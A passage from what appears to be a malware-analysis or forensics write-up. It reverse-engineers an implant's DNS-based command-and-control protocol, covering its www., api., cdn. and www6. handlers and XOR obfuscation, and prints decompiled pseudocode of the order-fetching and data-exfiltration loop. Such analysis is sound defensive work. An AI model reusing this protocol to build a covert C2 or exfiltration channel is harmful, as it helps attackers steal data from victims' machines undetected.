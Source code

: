 A few moments later, after having analyzed a part of the implant, I figured that it contacted its C&C with DNS, and had several "handlers" for it:
 - if the requested name starts by "www.", the malware sends RSA-encrypted "fingerprint" of the machine to the C&C, along with an AES sesion key to talk to the server
 - if the requested name start directly by a random hex number, the bot queries orders from the C&C. The response is in a A DNS record and xored with "8.8.4.4" IP in big endian
 - If the requested name starts by "api.", the client first sends a A request to get the payload size (always xored by 8.8.4.4), and then issues TXT queries, and server replies with base64 data
 - If the request starts by "cdn.", then the first A request contains payload size, and further A requests the payload data xored by 8.8.4.4 (big endian DWORD)
 - There is also "www6." handler, which seem to be the same with cdn. but with AAAA records (IPv6 addresses are longer, so more data can be sent as response)
```c
    if ( (unsigned int)QueryCnCOrder(fetchOrderDns, &ip_obf) )
      {
        v15 = v12 ^ ntohl(ip_obf);
        ip_obf = v15;
        if ( v15 && (v15 & 0xFFFFFFF0) == 240 )
        {
          sub_18000EF14(v15);
          v16 = ip_obf;
          if ( (ip_obf & 1) != 0 )
          {
            exfiltrateData(v13, a1, (__int64)&encryptedFingerprint, encryptedFingerprintSize);
            v16 = ip_obf;
          }
          if ( (v16 & 2) != 0 )
          {
            cncLen = get_encrypted_int(4u);
            v18 = sendTxtRequest(a1, (char *)bufferFromServer, cncLen);
          }
          else if ( (v16 & 4) != 0 )
          {
            www6Len = get_encrypted_int(4u);
            v18 = sendWww6Typ(a1, bufferFromServer, www6Len);
          }
          else
          {
            cdnLen = get_encrypted_int(4u);
            v18 = sendCdnRequest(a1, bufferFromServer, cdnLen);
          }
          if ( v18 > 0 )
          {
            v21 = decryptResponse(bufferFromServer, v18);
            if ( v21 > 0 )
              doStuffWithResponse(bufferFromServer, (unsigned int)v21);
          }
        }
```

Unfortunately, this data is encrypted by the AES session key, and since we only have the last part of the "fingerprint", we'll need to figure out where the AES key is generated/stored, and extract it from the dump with WinDBG. Before the "main" loop of DNS queries, some initialization function are quite interesting:
```c
void *__fastcall GrabInfo(GetInfoStruct *Src, unsigned int len)
{
  DWORD CurrentProcessId; // ebx
  DWORD TickCount; // eax
  char someflags; // bl
  HANDLE CurrentProcess; // rax
  DWORD v8; // eax
  unsigned int v9; // edi
  __int64 pubKey; // rax
  block_iterator a1; // [rsp+30h] [rbp-20h] BYREF
```